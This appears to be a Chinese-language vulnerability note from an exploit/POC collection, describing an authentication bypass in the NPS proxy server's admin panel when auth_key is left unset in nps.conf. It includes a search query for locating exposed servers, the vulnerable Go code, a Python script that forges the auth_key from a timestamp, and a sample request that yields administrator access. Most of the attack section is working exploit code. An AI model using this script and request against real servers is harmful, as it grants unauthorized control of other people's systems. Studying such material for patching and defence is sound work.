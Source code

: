 # NPS auth_key 未授权访问漏洞

# NPS auth_key 未授权访问漏洞

## 漏洞描述

NPS auth_key 存在未授权访问漏洞，当 nps.conf 中的 auth_key 未配置时攻击者通过生成特定的请求包可以获取服务器后台权限

## 漏洞影响

```
NPS
```

## 网络测绘

```
body="serializeArray()" && body="/login/verify"
```

## 漏洞复现

登录页面

![image-20220824141041017](/images/202208241410172.png)

在 web/controllers/base.go 文件中

![image-20220824141203374](/images/202208241412535.png)

```
md5Key := s.getEscapeString("auth_key")
timestamp := s.GetIntNoErr("timestamp")
configKey := beego.AppConfig.String("auth_key")
timeNowUnix := time.Now().Unix()
if !(md5Key != "" && (math.Abs(float64(timeNowUnix-int64(timestamp))) <= 20) && (crypt.Md5(configKey+strconv.Itoa(timestamp)) == md5Key)) {
	if s.GetSession("auth") != true {
		s.Redirect(beego.AppConfig.String("web_base_url")+"/login/index", 302)
	}
} else {
	s.SetSession("isAdmin", true)
	s.Data["isAdmin"] = true
}
```

这里需要的参数为 配置文件 nps.conf 中的 auth_key 与 timestamp 的md5 形式进行认证，但在默认的配置文件中，auth_key 默认被注释，所以只需要可以获取到的参数 timestamp 就可以登录目标

![image-20220824141300327](/images/202208241413464.png)

```
import time
import hashlib
now = time.time()
m = hashlib.md5()
m.update(str(int(now)).encode("utf8"))
auth_key = m.hexdigest()

print("auth_key=%s&timestamp=%s" % (auth_key,int(now)))
```

验证POC

```
POST /client/list
  
search=&order=asc&offset=0&limit=10&auth_key=8c98b1bdedbc569c4e61eeaeb11ce772&timestamp=1659838908
```

![image-20220824141850731](/images/202208241418775.png)


